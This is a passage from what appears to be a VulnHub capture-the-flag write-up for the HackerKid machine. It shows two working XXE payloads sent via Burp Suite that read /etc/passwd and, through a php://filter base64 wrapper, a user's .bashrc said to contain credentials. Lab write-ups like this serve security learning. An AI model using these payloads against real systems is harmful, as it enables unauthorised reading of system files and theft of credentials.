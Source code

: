 Inspecting the request with `burpsuite`, we can change the xml data and trigger `XXE` to read an arbitrary file from the system, starting with `/etc/passwd` with the following `xml` payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
<root>
	<name>jeff1</name>
	<tel>jeff2</tel>
	<email>&test;etc</email>
	<password>jeff1</password>
</root>
```

![etc_passwd.png](https://raw.githubusercontent.com/0x00Jeff/0x00Jeff.github.io/refs/heads/master/assets/vulnhub/hackerkid/etc_passwd.png)

One interesting entry is the following:

```jsx
saket:x:1000:1000:Ubuntu,,,:/home/saket:/bin/bash
```

Which tells us we can look further under `saket`’s home directory for secrets in `~/.bashrc` , `~/.bash_history` ..

A simple `file:///home/saket/.bashrc` didn’t work but with the help of `php`base64 convert wrapper I could get the file and find some credentials inside, along with a note that the the other app is being server with `python`

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY test SYSTEM "php://filter/convert.base64-encode/resource=/home/saket/.bashrc">]>
<root>
	<name>jeff1</name>
	<tel>jeff2</tel>
	<email>&test;etc</email>
	<password>jeff1</password>
</root>
```

